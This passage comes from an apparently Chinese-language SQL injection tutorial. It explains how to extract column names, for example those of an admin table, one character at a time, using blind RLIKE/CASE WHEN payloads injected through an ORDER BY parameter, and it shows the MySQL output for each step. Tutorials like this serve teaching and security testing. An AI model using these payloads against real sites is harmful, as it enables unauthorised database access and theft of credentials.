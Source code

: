 ## 0x05 猜字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名



limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

```plain
// 演示数据
mysql> SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1;
+-------------+
| column_name |
+-------------+
| id          |
+-------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/sql.php?sort=1

猜test库 tdb_admin表的第一个字段名第一个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.01 sec)
```

猜test库 tdb_admin表的第一个字段名第二个字: select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='d') THEN 1 ELSE 0x28 END);

```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='d') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.01 sec)
```
